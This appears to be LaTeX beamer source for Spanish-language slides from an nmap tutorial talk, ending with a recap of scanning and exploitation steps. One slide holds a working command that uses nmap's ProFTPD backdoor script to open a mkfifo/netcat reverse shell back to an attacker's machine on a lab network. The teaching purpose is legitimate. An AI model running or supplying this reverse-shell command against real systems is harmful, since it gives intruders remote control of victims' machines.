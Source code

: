 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Scripts}
    
    \framesubtitle{Ejemplos (3)}

    \begin{lstlisting}
 user@kali $ sudo nmap -sV --script="ftp-proftpd-back*" --script-args="cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>\&1|nc 192.168.56.1 4444 >/tmp/f" 192.168.56.19
    \end{lstlisting}

    Genera una conexi\'on remota hacia el sistema del atacante. 
    
\end{frame}

\section{Extras}

\begin{frame}[fragile]
    \frametitle{Recapitulando}
    
    En esta charla vimos:

    \begin{itemize}
        \item Encontar sistemas en una red,
        \item Encontrar los puertos abiertos en los sistemas,
        \item Obtener el nombre y versi\'on del servicio,
        \item Ejecutar scripts para obtener m\'as info,
        \item Ejecutar scripts para encontrar vulnerabilidades,
        \item Ejecutar scripts para explotar vulnerabilidades.
    \end{itemize}

    \pause

    \begin{block}{}
        \begin{center}
            Solo vimos la punta del iceberg. Los invito a investigar m\'as sobre nmap.
        \end{center}
    \end{block}
    
\end{frame}
\end{document}
